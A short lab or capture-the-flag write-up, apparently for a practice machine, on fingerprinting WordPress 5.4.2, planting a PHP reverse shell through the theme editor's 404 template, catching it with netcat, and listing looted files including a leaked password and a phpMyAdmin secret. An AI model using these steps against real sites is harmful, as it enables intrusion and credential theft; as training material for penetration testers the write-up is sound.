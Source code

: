 
## WordPress Fingerprinting and Exploitation

---

WordPress version 5.4.2

**Posts**

(no title) - Private

```txt
To-Do

Don't forget to reset Will's credentials. william:arnold147
```

**PHP Reverse-Shell via Themes Vulnerability**

Appearance > Theme Editor > 404 Template: pentestmonkey [php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php).

Triggering reverse-shell:

>http://ip-addr/blog/wp-content/themes/twentyseventeen/404.php

_kali#nc -lvnp 1234_

```txt
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.76.3.
Ncat: Connection from 10.10.76.3:53682.
Linux internal 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 21:13:02 up  1:39,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

**_Interesting files:_**

1. _/var/lib/phpmyadmin/blowfish_secret.inc.php_

```php
$cfg['blowfish_secret'] = '6wqoJ$mf_Wv($r?g$l4+#P#lAoCVVUM3'
```

2. _/etc/phpmyadmin/htapasswd.setup_

```txt
admin:*
```
